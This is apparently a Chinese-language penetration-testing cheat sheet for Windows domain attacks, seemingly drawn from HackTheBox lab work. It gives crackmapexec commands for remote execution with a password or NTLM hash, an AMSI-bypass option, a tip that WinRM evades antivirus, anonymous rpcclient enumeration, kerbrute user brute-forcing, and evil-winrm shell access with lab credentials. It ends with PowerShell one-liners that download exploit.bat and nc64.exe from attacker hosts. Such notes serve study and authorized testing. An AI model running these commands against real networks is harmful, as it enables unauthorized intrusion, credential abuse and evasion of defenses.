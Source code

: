 # 域渗透工具

## crackmapexec

```
-x 通过cmd.exe 执行命令
-X 通过cmd.exe 调用执行powershell命令
crackmapexec smb 192.168.216.144 -u 'administrator' -p 'pass1234!' -x 'whoami'
或者使用ntlm hash
crackmapexec smb 192.168.216.144 -u 'administrator' -H 'aad3b435b51404eeaad3b435b51404ee:ff1a0a31d936bc8bf8b1ffc5b244b356' -x 'whoami'
默认情况下会自动选择登录域，-d可以指定域登录，-x 要执行的命令
CME将按以下顺序执行命令
1.wmiexec：通过WMI执行命令
2.atexe：通过Windows任务调度程序调度任务来执行命令
3.smbexec：通过创建和运行服务来执行命令

-X '$PSVersionTable' 使用查看powershell 版本环境命令 ，--amsi-bypass /path/payload 执行powershell
```

通过winrm执行命令很多情况下可以绕过一些杀软的拦截

```
crackmapexec wimri 192.168.216.144 -u 'administrator' -p 'pass1234!' -x 'whoami'
```

## rpcclient

```
 rpcclient -U bhult 10.10.10.193 --password=Fabricorp02@
```

```
# RPC 客户端
rpcclient -U "" -N 10.129.14.128
-U ""：空用户名，表示匿名登录。
-N：无需密码。
# 一些特殊命令，获取相关信息
srvinfo  # 服务器信息
enumdomains  # 枚举部署在网络中的所有域
querydominfo  # 提供已部署域的域、服务器和用户信息
netshareenumall  #     枚举所有可用的共享
netsharegetinfo <share>  # 提供有关特定共享的信息
enumdomgroups #枚举域组
enumdomusers  # 枚举所有域用户
queryuser <RID>  # 提供有关特定用户的信息
querygroup <RID>  # 提供有关特定组的信息
enumprivs #枚举权限
getdompwinfo #获取域密码信息
getusrdompwinfo 0x1f4 #获取用户域密码信息
querydispinfo #扩展有关用户及其描述的信息量
enumprints #枚举打印机
```



# 端口

## 53端口

## 88端口

**Kerberos 的**运行原则是验证用户身份，但不直接管理用户对资源的访问。这是一个重要的区别，因为它强调了该协议在安全框架中的作用。

使用[ropnop/kerbrute](https://github.com/ropnop/kerbrute)工具可以爆破域中的用户，账号密码

```
./kerbrute userenum --dc 10.10.10.193 -d FABRICORP.LOCAL  ../hackthebox/fuse-windows/id.list 
```

## 5985/5986

[winrm](https://github.com/Hackplayers/evil-winrm.git)提供一个linux连接winrm的shell

安装方法:

```
gem install evil-winrm
```

```
evil-winrm -i 10.10.10.193 -u svc-print -p '$fab@s3Rv1ce$1'
```

# 文件上传/下载

```
 iwr http://10.10.14.52:8000/exploit.bat -Outfile C:\Temp\exploit.bat
```

```
powershell wget http://10.10.16.3:8000/nc64.exe -outfile nc.exe
```

